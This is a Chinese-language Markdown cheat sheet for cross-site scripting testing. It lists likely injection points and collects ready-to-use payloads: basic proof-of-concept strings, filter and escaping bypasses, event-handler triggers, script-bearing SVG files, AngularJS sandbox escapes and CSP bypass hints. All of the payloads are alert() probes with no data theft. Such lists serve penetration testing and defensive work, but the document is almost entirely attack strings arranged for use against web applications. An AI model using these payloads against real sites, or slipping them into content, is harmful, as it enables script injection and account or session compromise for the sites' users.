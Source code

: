 ## 可能出现xss漏洞的位置
- 所有配置超链接的地方  
使用www.baidu.com 测试是否可以重定向，然后url配置为`javascript:alert('xss');`  
- 文件上传的地方
上传文件修改为 `.html` ，内容为 `<image src=1 onerror=alert(document.domain)>`，然后去访问这个文件   
- svg插入xss	
- pdf插入xss

## 常用POC:
- `"><script>alert(1)</script>`  
- `<image src=1 onerror=alert(1)>`  
- `" autofocus onfocus=alert(1) x="`  
- `<a href="javascript:alert(1)">`  
- `javascript:alert(1);`  
JavaScript伪协议，超链接的地方就可能会存在
- `"><svg onload=alert(1)>`  
- `<span title="" onmouseover="alert(/XSS/)">" onmouseover="alert(/XSS/)</span>`  
- `'-alert(1)-'`  
单引号作用：跳出前一个js

## 绕过防护POC：
- 在标签中`/`可代替空格  
- = 两边添加TAB键  
- poc进行16进制编码，去掉`;`仍然可执行  
- `&apos;-alert(1)-&apos;`  
- `';alert(1)//`
- 当单引号被转义时  
` \\';alert(1)// `
- 有引号处理文字时,如：var input='payload';  
` ${alert(1)} `
- url编码  
` %27%2dalert(1)%2d%27 `  
`%3Ca%20hREf%20%3D%20%27javasCriPt%3Aalert(%2Fxss%2F)%27%3Eclick%20me!%3C%2Fa%3E` javascript伪协议 
- 尖括号被转义绕过
尝试利用事件执行xss，这里我主要采用与用户接口(鼠标、键盘)相关的事件，如click、mouseover等：  
```html
<span title="" onmouseover="alert(/XSS/)">" onmouseover="alert(/XSS/)</span>
``` 

## 事件执行触发POC:
- accesskey:设置快捷键  
`<a href="url" accesskey="c">alert()</a>` ctrl+shift+c触发
- mouseover:鼠标移动  
`<span title="" onmouseover="alert(1)">" onmouseover="alert(1)"</span>`
- click:单击  
`<span title="" onclick="alert(1)">" onclick="alert(1)"</span>`

## SVG
```html
<svg version="1.1" xmlns="http://www.w3.org/2000/svg">
	<circle cx="100" cy="50" r="40" stroke="black" stroke-width="2" fill="red" />
	<script>alert(1)</script>
</svg>

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
	<rect width="300" height="100" onmouseover="alert(/xss/)" style="fill:rgb(0,0,255);stroke-width:3;strcke:rgb(0,0,0)">
</svg>
```

## DOM XSS出现位置函数
`document.write、location.search、eval（）、location、someDOMElement.innerHTML/uterHTML/insertAdjacentHTML/onevent`

## 沙箱逃逸
- `toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1`
- `<input autofocus ng-focus="$event.path|orderBy:'[].constructor.from([1],alert)'">`
- `{{$on.constructor('alert(1)')()}}`

## 绕过CSP
- 悬空标记注入，指定url地址后面用？跟参数
- 修改响应包中CSP指令，覆盖现有规则script-src等